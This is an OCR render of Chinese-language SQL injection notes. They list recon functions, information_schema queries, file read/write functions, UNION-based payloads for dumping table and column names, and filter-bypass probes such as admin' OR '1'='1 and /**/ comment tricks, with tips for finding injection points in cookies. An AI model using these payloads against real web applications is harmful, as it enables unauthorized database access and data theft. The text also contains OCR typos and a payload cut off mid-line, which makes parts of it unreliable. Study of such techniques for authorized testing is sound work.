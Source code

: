 >   -   `select * information_schema.tables;`记录所有表名
>   -   `where table_name=''`筛选条件
>   -   `select * from information_schema.columns;`记录所有的列名
>   -   `where column_name=''`筛选条件
>   -   `wherw table_schema=''`筛选条件

>   **信息收集**
>
>   -   **判断数据个数order by x 根据正确域错误的格式来判断个数，然后select 1,2,3,...**
>   -   **查询数据库 version()**
>   -   **数据库名字 databaase()**
>   -   **数据库用户 user()**
>   -   **操作系统 @@version_compile_os**

>   **文件读写操作**
>
>   -   **load_file():读取函数**
>   -   **into outfile或iinto dumpfile:导出函数**
>   -   **获取路径的常见方法**
>   -   **报错显示、遗留文件、漏洞报错、平台配置文件、爆破等、**

```mysql
-- hex()将一个数字或者字符串转换为16进制
-- unhex()将一个16进制数字或者字符串转换回去
select ''+hex(database())+'';
select ''+UNHEX(7065656)+'';
```



```sql
1' union select 1,2#
1' union select database(),user()#

1' union select 1,group_concat(table_name) from information_schema.tables where table.schema=database()#

1' union select 1,group_concat(column_name) from information_schema.columns where table_name=''#

1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='表名'#

1' union select 1,group_co
```

###0、测试案例

`/var/www/html`它是网站根目录

```sql
首先确定是否存在过滤，过滤了哪些关键字
'or '1' = '1	
'or '1' = '2
admin' OR '1'='1
admin' ORDER BY 4#
admin'/**/ORDER/**/BY/**/3#


1'/**/group/**/by/**/22,'3	判断有多少列
\||/**/1;%00

抓包，寻找注入点，看`cookie`、`session`

寻找注入点方法：
使用单引号注入
使用双引号注入
输入^判断是否页面发生改变
1^1^1 	使用异或方式

```